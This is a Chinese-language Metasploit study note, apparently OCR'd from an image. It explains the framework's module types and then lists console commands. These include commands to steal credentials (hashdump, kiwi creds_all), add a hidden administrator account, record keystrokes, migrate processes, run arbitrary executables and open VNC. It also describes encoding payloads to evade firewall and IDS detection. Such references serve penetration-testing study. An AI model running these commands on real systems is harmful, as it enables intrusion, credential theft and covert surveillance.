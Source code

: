 1、Auxiliary（辅助模块）

为渗透测试信息搜集提供了大量的辅助模块支持

2、Exploits（攻击模块）

利用发现的安全漏洞或配置弱点对远程目标系统 进行攻击，从而获得对远程目标系统访问权的代码组件。

3、Payload（攻击载荷模块）

利用漏洞之前要先建立一个Payload,其作用是确定漏洞攻击成功之后要执行什么操作，Payload基本上是用于访问远程计算机的反向shell和通过shel植入后门等到被入侵的电脑

4、Post （后渗透攻击模块）

收集更多信息或进一步访问被利用的目标系统

5、Encoders（编码模块）

不能确保所有Metasploit中的exp都可以正常工作，有时候 会遇到防火墙、IPS、IDc等，所有的试图攻击等可能会被 防火墙过滤掉，这时候就需要使用Encoders来对exp进行编码等，用来逃避防火墙、IPS、IDs的检测。

6、options-选项

所有的Exploit和Payload都有一些内置的参数，诸如远程IP、 本地IP、LPORT、RPORT、服务路径、用户名等。这些参数 在利用exp之前需要进行配置，可以使用Show Options命令 来显示具体的选项。


`msfconsole` 启动
search 搜索
use 使用
`set rhost` 远程主机
`set rport` 远程端口
`run` 开始

`set payload`  指定载荷
`show options` 当前选项

`sysinfo` 系统信息

shell 反弹shell

`hashdump`

`load kiwi`
`creds_all`

net user xxx /add
net localgroup administrators xxx /add

screenshot
ps 
migrate PID
getuid
`run post/windows/capture/keylog_recorder` 键盘记录
`execute -f c:\\aaa.exe`
`run vnc` 远程